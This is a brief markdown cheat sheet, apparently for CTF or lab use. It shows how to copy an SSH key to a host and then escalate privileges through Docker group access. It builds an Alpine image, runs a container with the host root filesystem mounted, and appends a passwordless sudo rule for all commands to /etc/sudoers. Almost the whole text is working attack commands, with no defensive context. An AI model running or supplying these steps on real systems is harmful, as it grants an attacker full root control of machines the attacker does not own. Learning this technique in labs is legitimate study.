 #### Copy Id 
```
ssh-copy-id -i id_rsa.pub user@ip
```
#### privilege escalation
- make directory
```
mkdir /home/user/directory
cd /home/user/directory
```
- build Dockerfile
```
FROM alpine
ENV WORKDIR /directory
RUN mkdir -p $WORKDIR
VOLUME $WORKDIR
WORKDIR $WORKDIR
```

- build and run container 
```
docker build -t directory .
docker run -v /:/directory -it directory /bin/sh
```
- take over control :>
```
echo "username ALL=(ALL) NOPASSWD:ALL" >> /directory/etc/sudoers
```
